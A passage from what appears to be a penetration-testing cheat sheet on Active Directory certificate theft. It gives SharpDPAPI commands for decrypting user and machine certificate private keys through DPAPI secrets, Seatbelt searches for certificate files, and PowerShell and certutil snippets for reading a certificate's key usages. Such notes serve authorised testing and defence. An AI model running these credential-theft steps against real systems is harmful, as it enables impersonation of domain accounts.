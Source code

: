 ```
Cmd > .\SharpDPAPI.exe certificates /mkfile:C:\Temp\mkeys.txt
```

### <mark style="color:orange;">DPAPI Machine Keys (THEFT3)</mark> <a href="#dpapi-machine-keys-theft-3" id="dpapi-machine-keys-theft-3"></a>

It's not possible to decrypt machine keys using the domain's DPAPI backup key, so the adversary can use the `DPAPI_SYSTEM` LSA secret on the system which is accessible only by the SYSTEM user:

```
 # While elevated
Cmd > .\SharpDPAPI.exe certificates /machine
```

After converting the output to `.pfx` and if the appropriate EKU scenario is present, the adversary can use that `.pfx` for domain authentication _as the computer account_ (see **PERSIST2**).

### <mark style="color:orange;">Search for Certificate Files (THEFT4)</mark> <a href="#search-for-certificate-files-theft-4" id="search-for-certificate-files-theft-4"></a>

Find certificate files lying around with Seatbelt:

```
Cmd > .\Seatbelt.exe "dir C:\ 10 \.(pfx|pem|p12)`$ false"
Cmd > .\Seatbelt.exe InterestingFiles
```

Some other certificate-related file extensions:

| File Extension             | Description                                                               |
| -------------------------- | ------------------------------------------------------------------------- |
| `.key`                     | The private key.                                                          |
| `.crt`/`.cer`              | The certificate.                                                          |
| `.csr`                     | Signing request file. Does not contain certificates or keys.              |
| `.jks`/`.keystore`/`.keys` | Java Keystore. May contain certificates + private keys used by Java apps. |

List EKUs for a certificate with PowerShell:

```powershell
PS > $CertPath = "C:\Users\snovvcrash\cert.pfx"
PS > $CertPass = "Passw0rd!"
PS > $Cert = New-Object System.Security.Cryptography.X509Certificates.X509Certificate2 @($CertPath, $CertPass)
PS > $Cert.EnhancedKeyUsageList
```

Parse `.pfx` with certutil:

```
Cmd > certutil.exe -dump -v cert.pfx
```
